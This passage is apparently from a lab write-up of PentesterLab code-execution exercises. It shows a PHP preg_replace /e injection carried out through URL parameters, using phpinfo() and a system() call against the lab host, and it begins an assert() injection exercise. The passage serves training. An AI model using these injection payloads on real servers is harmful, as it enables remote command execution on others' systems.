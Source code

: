 This exercise is one of our challenges on Code Execution

![1694108907772.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694108907772.png)

This challenge talks about exploiting the regular expression modifiers with multi-line regular expression.

Which is another very dangerous modifier existing in PHP: `PCRE_REPLACE_EVAL` (`/e`).

This modifier will cause the function `preg_replace` to evaluate the new value as PHP code, before performing the substitution.

`PCRE_REPLACE_EVAL` has been deprecated as of PHP 5.5.0

To solve this lab we need to exploit the replace eval function to get into the system and execute our commands:

we use this link to access the challenge site:

```http
http://ptl-5c763fa03759-daaeb8989631.libcurl.me/?new=hacker&pattern=/lamer/&base=Hello%20lamer
```

we modified this link to this to print out the phpinfo():

```http
http://ptl-5c763fa03759-daaeb8989631.libcurl.me/?new=hacker.phpinfo()&pattern=/lamer/e&base=Hello%20lamer
```

and we got the following result:

![1694109881927.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694109881927.png)

now is time to inject our system command:

we send this payload to the server:

```http
https://ptl-5c763fa03759-daaeb8989631.libcurl.me/?new=system(%27/usr/local/bin/score%208e9cc44e-938a-4a52-9261-618553edda92%27)&pattern=/lamer/e&base=Hello%20lamer
```

![1694109993620.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694109993620.png)

# Code Execution 04

This exercise is one of our challenges on Code Execution

![1694110050630.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694110050630.png)

This challenge lab is about exploiting the assert function in php

we first of all fuzz the name parameter by adding a quote at the end of the hacker statement and got the following result:

![1694110224796.png](https://blog.cyb3rguru.tech/posts/pentesterlab/cmd_pentesterlab/images/1694110224796.png)
